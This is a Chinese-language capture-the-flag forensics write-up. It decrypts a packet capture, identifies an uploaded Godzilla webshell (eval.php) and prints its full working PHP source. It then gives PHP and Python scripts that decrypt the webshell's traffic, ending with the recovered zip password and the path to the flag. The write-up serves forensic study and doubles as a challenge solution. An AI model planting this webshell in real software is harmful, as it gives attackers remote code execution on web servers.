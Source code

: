 ![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/c41bd238-cdf0-45c0-a233-cb27f02ad4bf.png?raw=true)

当然也可直接借助 ARCHPR 的“口令来自密钥”功能进行恢复得到解密后的流量包

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/01b787a1-907b-4d9f-8856-2a2594613d6c.png?raw=true)

追踪一下 POST 数据流，发现上传了 eval.php 文件，很明显的 Godzilla 特征：

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/68a5147b-a01d-4ad0-80a2-618320dc4a68.png?raw=true)

代码如下：

```
<?php@session_start();@set_time_limit(0);@error_reporting(0);function encode($D,$K){    for($i=0;$i<strlen($D);$i++) {        $c = $K[$i+1&15];        $D[$i] = $D[$i]^$c;    }    return $D;}$pass='air123';$payloadName='payload';$key='d8ea7326e6ec5916';if (isset($_POST[$pass])){    $data=encode(base64_decode($_POST[$pass]),$key);    if (isset($_SESSION[$payloadName])){        $payload=encode($_SESSION[$payloadName],$key);        if (strpos($payload,"getBasicsInfo")===false){            $payload=encode($payload,$key);        }  eval($payload);        echo substr(md5($pass.$key),0,16);        echo base64_encode(encode(@run($data),$key));        echo substr(md5($pass.$key),16);    }else{        if (strpos($data,"getBasicsInfo")!==false){            $_SESSION[$payloadName]=encode($data,$key);        }    }}
```

由于后续所有的流量都经过了该 webshell 进行混淆，所以需要进行解密：

```
<?phpfunction encode($D,$K){    for($i=0;$i<strlen($D);$i++) {        $c = $K[$i+1&15];        $D[$i] = $D[$i]^$c;    }    return $D;}// $pass='air123';$key='d8ea7326e6ec5916';$a = 'ca19adef3b7a8ce7J+5pNzMyNmU2Zkj4dYADUu5NThjkf39Jf7E3ff4hHq4XSElxItE0ZQOqa0EPMTZkb2e56eb02f8c2a4d';$b = substr($a, 16, strlen($a)-32);echo gzdecode(encode(base64_decode($b), $key));// uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

由于需要解密的流量太多，这里通过 `文件->导出对象->HTTP` 导出所有文件：

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/ccb4095e-e35e-4e14-a0ce-8426996f41e3.png?raw=true)

发现 flag.zip，发现需要密码，猜测隐藏在其他响应包内容里，这里批量进行解密：

```
from urllib.parse import unquoteimport gzip, base64, redef encode(D, K):    res = b''    for i in range(len(D)):        c = K[i+1&15]        res += bytes.fromhex(hex(D[i]^ord(c))[2:].zfill(2))    return res# pass='air123'key='d8ea7326e6ec5916'for i in range(1,28):    with open(f'aaa/eval({i}).php', 'r') as f:        data = unquote(f.read())        if 'air123' in data:            try:                data = re.findall(r'air123=(.*)', data)[0]                print(f'eval({i}).php - request:')                print(gzip.decompress(encode(base64.b64decode(data.encode()), key)))            except:                pass        # else:        #     try:        #         data = data[16:-16]        #         print(f'eval({i}).php - request:')        #         print(gzip.decompress(encode(base64.b64decode(data.encode()), key)))        #     except:        #         pass
```

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/2/d7cfea26-714b-44a3-98f3-af5525bea7b5.png?raw=true)

通过批量解密拿到密码 `airDAS1231qaSW@`，解压之前从流量包中提取出来的 flag.zip 拿到最终 flag。
